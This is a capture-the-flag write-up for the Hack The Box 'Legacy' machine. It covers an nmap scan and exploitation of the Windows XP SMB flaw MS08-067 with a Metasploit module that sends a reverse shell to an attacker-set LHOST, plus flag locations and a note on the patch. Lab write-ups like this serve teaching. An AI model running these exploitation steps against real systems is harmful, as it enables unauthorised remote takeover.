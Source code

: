 ![logo](/logo.png)

# [LEGACY- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was reeleased on 15 Mar 2017 as the second machine on HTB,Legacy created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *msrpc
  *netbios-ssn
  *Windows-XP
  
###### code-nmap

```sh
nmap -sV -sC -oA nmap/legacy 10.10.10.4
```

###### output

![nmaplegacy](Windows/Windows-Easy/Legacy/Screenshots/nmaplegacy.png)

```code
❯ nmap -sV -sC -oA nmap/legacy 10.10.10.4                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 09:17 EAT
Nmap scan report for 10.10.10.4
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:da:f6 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-09T11:15:50+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m41s, deviation: 2h07m15s, median: 4d22h57m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.78 seconds

```

looking at the results we find that they are 3 ports open which is an SMB port its a `windows XP` machine.

port[135]-msrpc
port[139]-netbios-ssn
port[445]-microsoft-ds 


# Exploitation

Some [searching](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15) turns up with [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250). Before diving into the details of my exploit, let’s unpack his vulnerability is a significant security flaw in Microsoft Windows operating systems, particularly affecting the Server service that manages file and printer sharing. The core issue lies in how Windows handles network services, allowing an attacker to send specially crafted network packets to execute arbitrary code remotely. In simpler terms, this vulnerability could enable an attacker to take control of a system without the user’s knowledge, which also has a `Metasploit` module available for it. 

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `exploit/windows/smb/ms08_067_netapi` and select relevant parameters;

###### code

 ```sh
search ms08_067_netapi
```

If so, Windows XP SP3 English is the correct target.

###### output

![metasploitlegacy](Windows/Windows-Easy/Legacy/Screenshots/metasploitlegacy.png)

###### code

```sh
use 8
options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
run
```

###### output

![metasploitoption](Windows/Windows-Easy/Legacy/Screenshots/metasploitoption.png)

Running the module immediately grants a root shell. 

![metasploitoption](Windows/Windows-Easy/Legacy/Screenshots/meterpreterlegacy.png)

###### code

```sh
shell
```

![](/Windows/Windows-Easy/Legacy/Screenshots/shelllegacy.png)

The user flag can be obtained from `C:\Documents and Settings\john\Desktop\user.txt` and the
root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`
###### output

![](/Windows/Windows-Easy/Legacy/Screenshots/legacyrootuserflag.png)


# The Mitigation: MS08–067

The adventure wouldn’t be complete without discussing the mitigation of this vulnerability. Microsoft released a security update, MS08–067, to patch this critical flaw. This update was crucial for Windows 2000, XP, Vista, and Windows Server 2003 and 2008 users, addressing the vulnerable component in the Server service to prevent such remote exploits. [Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

![](/Windows/Windows-Easy/Legacy/Screenshots/learnlegacy.png)

	-------------------------END successful attack @lesley----------------------


